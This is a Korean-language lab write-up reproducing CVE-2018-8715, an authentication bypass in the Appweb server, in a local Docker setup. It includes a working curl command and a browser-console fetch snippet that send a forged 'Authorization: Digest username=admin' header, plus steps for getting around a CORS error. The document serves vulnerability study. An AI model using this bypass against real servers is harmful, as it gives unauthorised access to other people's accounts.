 # CVE-2018-8715

**Contributors**
-   [정준우(@JungJoonWoo)](https://github.com/JungJoonWoo)
<br/>

### 참고문헌
- https://vulners.com/seebug/SSV:97181
- https://github.com/cyberharsh/appweb/blob/master/README.md

### 요약
- 인증 절차의 논리적 결함으로 인해 기존 사용자의 이름을 알면 위조된 HTTP POST Request를 통해 모든 form인증과 digest 타입의 인증을 완전히 우회할 수 있음
- 비밀번호 포인터가 null이라면(즉, 비밀번호 매개변수가 전달되지 않는 다면)로직 오류로 인해 appweb이 인증이 성공했다고 반환함
<br/>

### 환경 구성 및 실행
- 모든 실습은 VMware의 Ubuntu 리눅스 환경에서 진행함
- `docker-compose up -d`를 실행하여 테스트 환경을 실행함
- `http://localhost:8080/` 에 접속하여 appweb 로그인 페이지를 확인함
  ### 실행1
  - `sudo apt install curl`을 통해 curl을 설치해 줌
  - `curl -H "Authorization: Digest username=admin" http://127.0.0.1:8080`를 통해 HTTP 헤더에 `Authorization: Digest username=admin` 패킷을 끼워 보내면 인증을 우회할 수 있다는 것을 확인
  ![](1.png)
  - `curl -H "Authorization: Digest username=admin" http://127.0.0.1:8080 -o output.html`명령어로 우회를 통해 알아낸 html파일을 로컬 파일로 추출한 뒤 로컬 환경에서 추출된 html 파일을 실행하면 정상적으로 실행됨

  ### 실행2
  - `F12`를 누른 뒤 콘솔에서 
  ```
  fetch('http://localhost:8080', {
    method: 'GET',
    headers: {
    'Authorization': 'Digest username=admin'
    }
    })
    .then(response => response.text())
    .then(data => console.log(data))
    .catch(error => console.error('Error:', error));
  ```
  코드를 입력해 헤더에 `'Authorization': 'Digest username=admin'`을 추가함
  - 하지만 CORS에 의해 에러가 발생함
  
  ![](3.png)
  - 이를 우회하기 위해 오류가 뜬 상태에서 아이디와 비밀번호를 아무값이나 입력하면 다음과 같이 상태는 200으로 패킷이 잘 전달 되었지만 인증은 되지 않았다는 창이 뜸
  ![](4.png)
  ![](5.png)
  - 이 상태에서 콘솔에 위 fetch코드를 다시 입력하면 local값이 잘 설정되어 있기 때문에 CORS에러가 발생하지 않음
  - 이후 개발자 도구를 끄고 `F5`를 눌러 새로고침하면 우회된 것을 확인할 수 있음
<br/>

### 결과1
![](2.png)
### 결과2
![](6.png)
<br/>

### 정리
- 7.0.3버전부터 취약점이 패치됨
- id를 무작위로 대입할 시 수많은 계정이 유출될 가능성이 있기 때문에 매우 위험한 취약점임